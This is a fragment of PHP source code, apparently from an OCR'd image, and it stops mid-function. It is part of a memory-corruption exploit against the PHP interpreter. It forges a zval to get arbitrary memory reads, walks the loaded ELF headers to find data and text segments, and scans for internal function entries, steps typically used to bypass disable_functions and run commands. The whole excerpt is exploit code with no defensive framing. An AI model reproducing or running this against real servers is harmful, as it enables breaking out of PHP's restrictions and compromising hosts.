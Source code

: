 ```php
    # the real deal
    public function leak2($addr, $p = 0, $s = 8) {
        global $spl1, $fake_tbl_off;

        # fake reference zval
        $this->write($this->abc, $fake_tbl_off + 0x10, 0xdeadbeef); # gc_refcounted
        $this->write($this->abc, $fake_tbl_off + 0x18, $addr + $p - 0x10); # zval
        $this->write($this->abc, $fake_tbl_off + 0x20, 6); # type (string)

        $leak = strlen($spl1::$leak);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }

        return $leak;
    }

    public function parse_elf($base) {
        $e_type = $this->leak2($base, 0x10, 2);

        $e_phoff = $this->leak2($base, 0x20);
        $e_phentsize = $this->leak2($base, 0x36, 2);
        $e_phnum = $this->leak2($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = $this->leak2($header, 0, 4);
            $p_flags = $this->leak2($header, 4, 4);
            $p_vaddr = $this->leak2($header, 0x10);
            $p_memsz = $this->leak2($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    public function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = $this->leak2($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = $this->leak2($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = $this->leak2($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = $this->leak2($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

```